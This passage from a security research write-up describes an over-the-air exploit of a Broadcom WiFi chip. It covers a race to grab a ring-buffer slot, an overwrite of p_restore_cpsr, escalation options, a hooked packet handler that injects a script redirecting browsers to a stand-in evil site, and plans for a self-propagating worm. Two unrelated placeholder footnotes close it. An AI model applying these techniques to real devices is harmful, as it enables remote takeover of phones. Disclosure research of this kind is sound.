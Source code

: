 In order to win the contest for the desired spot in the ring buffer, we have set up a dozen Alfa wireless adapters, each broadcasting on a different channel. By causing them to simultaneously bombard the air with packets on all channels, we have reached a situation where we successfully grab the first slot in the ring buffer about 70% of the time. Of course, this result could radically change if we move to a more crowded WiFi environment.

Once we grab the first slot, exploitation is simple: The fake timer object writes to the offset of p_restore_cpsr, overwriting it with the address of an offset within our packet in the first slot. This is where we will store our payload.

Despite the difficulty of this approach and the fact that it requires additional gear, it still offers a powerful alternative to the previous exploitation approach, in that the second approach does not require knowledge of addresses within the system.

THE NEXT STEP – PRIVILEGE ESCALATION
After achieving stable code execution on the Broadcom chip, an attacker’s natural goal would be to escape the chip and escalate their privileges to code execution on the application processor. There are three main approaches to this problem:

Find a bug in the Broadcom kernel driver that handles communication with the chip. The driver and chip communicate using a packet-based protocol, so an extensive attack surface on the kernel is exposed to the chip. This approach is difficult, since, unless a way to leak kernel memory is found, an attacker will not have enough knowledge about the kernel’s address space to carry out a successful exploit. Again, attacking the kernel is made more difficult by the fact that any mistake we make will crash the whole system, causing us to lose our foothold in the WiFi chip.
Using PCIe to read and write directly to kernel memory. While WiFi chips prior to the BCM4358 (the main WiFi chip used on the Samsung Galaxy S6) used Broadcom’s SDIO interface, more recent chips use PCIe, which inherently enables DMA to the application processor’s memory. The main drawback of this approach is that it will not support older phones.
Waiting for the victim to browse to a non-HTTPS site, then, from the WiFi chip, redirecting them to a malicious URL. The main advantage of this approach is that it supports all devices across the board. The drawback is that a separate exploit chain for the browser is required.
We believe that achieving kernel code execution from the chip is a sufficiently complicated subject as to justify a separate research; it is therefore out of the scope of the current research. However, work has already been done by Project Zero to show that a kernel write primitive can be achieved via PCIe [d].
In the current research, our approach is to use our foothold on the WiFi chip to redirect the user to an attacker-controlled site. This task is made simple by the fact that a single firmware function, wlc_recv(), is the starting point for processing all packets. The signature of this function is as follows:
void wlc_recv(wlc_info *wlc, void *p);

The argument p is a pointer to HNDRTE’s implementation of an sk_buff. It holds a pointer to the packet data, as well as the packet’s length and a pointer to the next packet. We will need to hook the wlc_recv function call, dump the contents of each packet that we receive. and look for packets that encapsulate unencrypted HTTP traffic. At this point, we will modify the packet the include a <script> tag, with the code: “top.location.href = http://www.evilsite.com”.

THE FIRST WIFI WORM
The nature of the bug, which can be triggered without any need for authentication, and the stability of the exploit, which deterministically and reliably reaches code execution, leads us to the return of an old friend: the self-propagating malware, also known as “worm”.

Worms died out around the end of the last decade, together with their essential companion, the remote exploit. They have died out for the same reason: software mitigations have become too mature, and automatic infection over the network became a distant memory. Until now.


[^1]: Footnote number one yeah baby! Long sentence test of footnote to see how the words are wrapping between each other. Might overflowww!
[^2]: A footnote you can link to - [click here!](#)